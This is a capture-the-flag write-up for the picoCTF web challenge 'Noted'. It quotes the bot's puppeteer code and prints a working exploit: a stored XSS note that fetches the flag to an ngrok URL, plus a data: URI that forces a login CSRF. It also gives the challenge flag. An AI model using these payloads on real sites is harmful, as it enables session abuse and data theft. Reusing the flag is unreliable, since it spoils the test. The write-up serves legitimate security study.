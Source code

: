 # Noted

## Description

I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does **not** have access to the internet.

Hint 1: Are you *sure* I followed all the best practices?

Hint 2: There's more than just HTTP(S)!

Hint 3: Things that require user interaction normally in Chrome might not require it in Headless Chrome.

## Approach

This challenge took many attempts before I arrived at the correct solution. I attempted Javascript URIs, CSRF protection bypass, SOP bypass, and some XSS methods. 

This website allows the user to create notes, and includes a login system. Let's go over the rest of the website. Here's `report.js`:
```javascript
async function run(url) {
    let browser;

    try {
        module.exports.open = true;
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
            slowMo: 10
        });

        let page = (await browser.pages())[0]

        await page.goto('http://0.0.0.0:8080/register');
        await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
        await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('http://0.0.0.0:8080/new');
        await page.type('[name="title"]', 'flag');
        await page.type('[name="content"]', process.env.flag ?? 'ctf{flag}');

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('about:blank')
        await page.goto(url);
        await page.waitForTimeout(7500);

        await browser.close();
    } catch(e) {
        console.error(e);
        try { await browser.close() } catch(e) {}
    }

    module.exports.open = false;
}
```
The report function uses puppeteer, an API that allows the automated control of the *headless, non-sandboxed* browser. This means that there is no human "admin" (although in a real world situation, there may be).

So, what happens when the user submits a link to the report page?
* Puppeteer creates a new account with a random username and password
* It creates a note under that new user, with the flag contained inside (process.env.flag)
* Only after this, does the bot open the URL that we provide through `/reports`

Originally, I planned to use Data/Javascript URIs to retrieve the account credentials, but this was not possible due to SOP. Also, the fetch API cannot be used due to CSRF tokens. It is important to note that the challenge creators mentioned that the headless browser did not have access to the internet; However, a couple of ports were open. Although this will not change the real solution, it will make exfiltration more streamlined. 

The idea is to create a note with a Javascript script embedded. Any user that opens the webpage will thus also execute the script. The script will contain the exfiltration process. Next, we can submit a Data URI forcing the headless browser to login to our account, then navigate to `/notes`. This will execute the note mentioned previously, allowing the retrieval of the flag. Here's the code:

Note:
```HTML
<script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.getElementsByTagName('p')[0].innerText; fetch('https://www.ngrok.io/link_here?flag='+flag);</script>
```

Report:
```
data:text/html,
<body>
  <form action="http://0.0.0.0:8080/login" method="POST" id="vuln" target="_blank">
    <input type="text" name="username" placeholder="username" value="arst">
    <br><br>
    <input type="password" name="password" placeholder="password" value="arst">
    <br><br>
    <input type="submit" value="Submit">
</form>
    <script>
        var w1 = window.open('http://0.0.0.0:8080/notes', 'flagWindow');
        vuln.submit();
    </script>
</body>
```

The note will exfiltrate to an "ngrok" website (you can use any web server you have) through a GET request, including in the parameters. When submitting the preceding URI through `/report`, we will receive a GET request, visible through ngrok's console: 

![Console](/Web%20Exploitation/Noted/ngrok.png)

Thus, the flag is: picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
